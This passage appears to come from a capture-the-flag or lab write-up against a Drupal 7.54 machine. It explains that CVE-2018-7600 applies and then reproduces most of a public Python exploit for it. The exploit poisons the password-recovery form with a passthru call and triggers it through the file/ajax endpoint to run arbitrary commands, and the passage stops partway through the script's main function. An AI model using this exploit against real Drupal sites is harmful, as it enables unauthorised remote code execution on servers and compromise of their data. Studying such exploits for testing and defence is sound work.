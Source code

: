 ### CVE2018-7600

When we run a search for *drupal* on Exploit-DB, we do get several exploits for Remote Code Execution on Drupal, that apply to 7.54. However, I wasn't able to get any of them to work properly. What I did find out though, is that this vulnerability is CVE-2018-7600. If we run a Google search for `github CVE-2018-7600`, we get [this result](https://github.com/pimps/CVE-2018-7600), which contains code for CVE2018-7600 and CVE2018-7602. While CVE2018-7602 is similar, it requires authentication first, which we don't have at this point. We can download the code for the CVE2018-7600 exploit locally, as below.

```python
#!/usr/bin/env python3

import requests
import argparse
from bs4 import BeautifulSoup

def get_args():
  parser = argparse.ArgumentParser( prog="drupa7-CVE-2018-7600.py",
                    formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=50),
                    epilog= '''
                    This script will exploit the (CVE-2018-7600) vulnerability in Drupal 7 <= 7.57
                    by poisoning the recover password form (user/password) and triggering it with
                    the upload file via ajax (/file/ajax).
                    ''')
  parser.add_argument("target", help="URL of target Drupal site (ex: http://target.com/)")
  parser.add_argument("-c", "--command", default="id", help="Command to execute (default = id)")
  parser.add_argument("-f", "--function", default="passthru", help="Function to use as attack vector (default = passthru)")
  parser.add_argument("-p", "--proxy", default="", help="Configure a proxy in the format http://127.0.0.1:8080/ (default = none)")
  args = parser.parse_args()
  return args

def pwn_target(target, function, command, proxy):
  requests.packages.urllib3.disable_warnings()
  proxies = {'http': proxy, 'https': proxy}
  print('[*] Poisoning a form and including it in cache.')
  get_params = {'q':'user/password', 'name[#post_render][]':function, 'name[#type]':'markup', 'name[#markup]': command}
  post_params = {'form_id':'user_pass', '_triggering_element_name':'name', '_triggering_element_value':'', 'opz':'E-mail new Password'}
  r = requests.post(target, params=get_params, data=post_params, verify=False, proxies=proxies)
  soup = BeautifulSoup(r.text, "html.parser")
  try:
    form = soup.find('form', {'id': 'user-pass'})
    form_build_id = form.find('input', {'name': 'form_build_id'}).get('value')
    if form_build_id:
        print('[*] Poisoned form ID: ' + form_build_id)
        print('[*] Triggering exploit to execute: ' + command)
        get_params = {'q':'file/ajax/name/#value/' + form_build_id}
        post_params = {'form_build_id':form_build_id}
        r = requests.post(target, params=get_params, data=post_params, verify=False, proxies=proxies)
        parsed_result = r.text.split('[{"command":"settings"')[0]
        print(parsed_result)
  except:
    print("ERROR: Something went wrong.")
    raise

def main():
  print ()
  print ('=============================================================================')
  print ('|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |')
```
